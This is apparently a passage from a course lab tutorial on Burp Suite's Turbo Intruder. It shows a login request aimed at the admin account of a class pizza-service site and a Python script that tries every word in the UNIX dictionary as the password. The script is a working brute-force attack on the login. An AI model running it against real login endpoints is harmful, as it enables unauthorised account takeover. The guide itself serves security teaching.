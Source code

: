 ![Use turbo intruder](useTurboIntruder.png)

You will need to manually insert your parameter variables in the request to use `%s`. For example:

```
PUT /api/auth HTTP/2
Host: pizza-service.cs329.click
Content-Length: 40
Content-Type: application/json
Accept: */*
Origin: https://pizza.cs329.click

{"email":"admin@jwt.com","password":"%s"}
```

You then use Python to define how many concurrent connections you would like and queue requests.

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    # Check all the words in the UNIX dictionary
    for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())

# Success for any 200 response
def handleResponse(req, interesting):
    if '200 OK' in req.response:
        table.add(req)
```

